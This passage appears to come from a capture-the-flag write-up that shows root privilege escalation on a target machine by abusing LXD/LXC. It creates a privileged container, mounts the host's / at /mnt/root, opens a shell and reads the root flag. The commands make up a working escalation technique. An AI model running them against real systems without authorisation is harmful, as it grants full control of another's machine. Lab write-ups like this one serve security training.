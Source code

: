 ```
lxc init myimage mycontainer -c security.privileged=true 
```

We then mount the **root (/)** folder of the target machine to **/mnt/root** on the container:

```
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true 
```

By doing so, we will be able to access **/** on the actual machine in the context of the root user by visiting **/mnt/root** on the container.

Finally, we start the container and use the `exe lxc` command to execute a command from it, in this case a shell:

```
lxc start mycontainer
lxc exec mycontainer /bin/sh
```

<br>

I followed all of the steps and before knowing it, I had root access!

<img style="float: left;" src="screenshots/screenshot12.png">

While the container doesn't actually contain anything, remember that we had previously mounted the **/** directory on the actual machine to **/mnt/root** of the container.

Hence, to access **/** on the actual machine, we navigate to **/mnt/root/** on the container. To access **/root** on the actual machine, that would be **/mnt/root/root** on the container:

<img style="float: left;" src="screenshots/screenshot13.png">

We can then obtain the root flag:

<img style="float: left;" src="screenshots/screenshot14.png">
